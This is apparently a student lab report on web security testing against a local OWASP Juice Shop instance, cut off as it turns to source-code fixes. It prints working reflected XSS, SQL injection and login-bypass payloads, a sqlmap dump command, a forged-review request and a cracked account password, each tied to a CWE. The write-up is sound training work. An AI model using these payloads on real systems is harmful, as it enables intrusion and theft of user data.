# Lab 3 - Web security

## Setting up the environment

First, we started the environment from sources for maximum vulnerability.

Next, we started by familiarizing ourselves with the application, by exploring the different functionalities.

## Exploring the application

### Creating a user account

Our first step was to create a user account:



Then, we logged in, so that we could use the application:



We took care to inspect the requests sent by the application, to understand how it works:

```
POST /rest/user/login HTTP/1.1
...
```

```json
{
  "email": "g08@ses.fc.up.pt",
  "password": "Passw0rd"
}
```

### Products page

After logging in, we were redirected to the products page:



### Adding a product to the basket

Next, we tried to add a product to the basket:




### Checking out

Finally, we tried to check out:




### Viewing our orders

After ordering, we tried to view our orders:


### Tracking our order

We noticed that we were able to track our order:



In this page, we noticed something interesting: the order ID is passed as a parameter in the URL, but it is also
displayed in the page.
This made us think that it might be possible to change the content of the page, by changing the order ID.

As a proof of concept, we changed the order ID to `<iframe src="javascript:alert(`Give us a 20 pls`)">`:


And got the following result:


In fact, we were able to execute JavaScript code in the context of the page, therefore solving the challenge "Reflected
XSS".

This is a known vulnerability: CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site
Scripting').

### Reviewing a product

After receiving our order, we decided to review the product:


Again, we took care to inspect the requests sent by the application, to understand how it works:

```
PUT /rest/products/1/reviews HTTP/1.1
...
```

```json
{
  "author": "g08@ses.fc.up.pt",
  "message": "We loved the product! Very tasty."
}
```

We noticed that the author's email was sent in the request when a review was created.

Our first thought was that we might be able to impersonate another user, by changing the author's email.
For that, we tried to send a PUT request to `/rest/products/1/reviews` with the following body:

```json
{
  "author": "admin@juice-sh.op",
  "message": "I think this group should get a good grade. Signed, admin."
}
```



We got the following result:


With this, we solved the challenge "Forged Review".
This is also a known vulnerability: CWE-287: Improper Authentication.
In this case, the application does not check if the user is allowed to perform the action, trusting the user's input.

### Searching for products

Next, we tried to use the search functionality:


We noticed that the search string was passed as a parameter in the URL:


This allowed us to try more exotic search strings, looking for possible vulnerabilities.

Using sqlmap:

```bash
sqlmap -u "http://localhost:3000/rest/products/search?q=1" --dump-all --batch
```

We arrived at the following payload, allowing us to dump the entire database schema:

```
qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--
```



With this, we solved the challenge "Database Schema".
This is another known vulnerability: CWE-89: Improper Neutralization of Special Elements used in an SQL Command
('SQL Injection').

### Inspecting the database schema

We analyzed the database schema, and found the following interesting tables:

```sql
CREATE TABLE `PrivacyRequests`
(
    `id`                INTEGER PRIMARY KEY AUTOINCREMENT,
    `UserId`            INTEGER REFERENCES `Users` (`id`) ON DELETE NO ACTION ON UPDATE CASCADE,
    `deletionRequested` TINYINT(1) DEFAULT 0,
    `createdAt`         DATETIME NOT NULL,
    `updatedAt`         DATETIME NOT NULL
);


CREATE TABLE `Users`
(
    `id`           INTEGER PRIMARY KEY AUTOINCREMENT,
    `username`     VARCHAR(255) DEFAULT '',
    `email`        VARCHAR(255) UNIQUE,
    `password`     VARCHAR(255),
    `role`         VARCHAR(255) DEFAULT 'customer',
    `deluxeToken`  VARCHAR(255) DEFAULT '',
    `lastLoginIp`  VARCHAR(255) DEFAULT '0.0.0.0',
    `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg',
    `totpSecret`   VARCHAR(255) DEFAULT '',
    `isActive`     TINYINT(1) DEFAULT 1,
    `createdAt`    DATETIME NOT NULL,
    `updatedAt`    DATETIME NOT NULL,
    `deletedAt`    DATETIME
);
```

### Dumping the users table

Using a similar payload, because we already knew the table schema, we were able to dump the users table:

```
qwert')) UNION SELECT username, email, password, role, deletedAt, '1', '2', '3', '4' FROM Users--
```

This allowed us to solve the challenge "User Credentials".
Again, this is CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection').

More than retrieving the users' credentials, we noticed that some accounts had been deleted.
However, it did not seem that they had really been deleted, as the data was still in the database, just with
the `deletedAt` field set.

### Logging in with a deleted account

We focused on a single deleted account:

```json
{
  "username": "",
  "email": "chris.pike@juice-sh.op",
  "password": "10a783b9ed19ea1c67c3a27699f0095b",
  "role": "customer",
  "deletedAt": "2023-05-07 19:45:32.264 +00:00"
}
```

And tried to log in.
For that, we needed to somehow crack the password hash.
We used an online tool to do that: https://hashes.com/en/decrypt/hash
The result was:

```
10a783b9ed19ea1c67c3a27699f0095b:uss enterprise
```

All that was left was to log in with the credentials `

```json
{
  "email": "chris.pike@juice-sh.op",
  "password": "uss enterprise"
}
```

This allowed us to solve the challenge "GDPR Data Erasure".



The associated vulnerabilities are CWE-359: Exposure of Private Personal Information to an Unauthorized Actor and
CWE-226: Sensitive Information in Resource Not Removed Before Reuse.

### Logging in with any account

After this, we realized that the login field was, by itself, vulnerable to SQL injection.
We were able to log in with any account, by appending the following payload to the email field:

```
' OR 1=1--
```

With this, we solved the challenges "Login Jim" and "Login Bender", again due to CWE-89: Improper Neutralization of
Special Elements used in an SQL Command ('SQL Injection').

## Looking at the source code

Taking a more white-box approach, we decided to look at the source code of the application, to see if we could
understand and ultimately fix the vulnerabilities we found.

### SQL injection (search and login forms)

We started by looking at the code for the search functionality.
In
the [search.ts](https://github.com/juice-shop/juice-shop/blob/9a0789b5ecb4ee76fe528b1860095e945f6302ac/routes/search.ts)
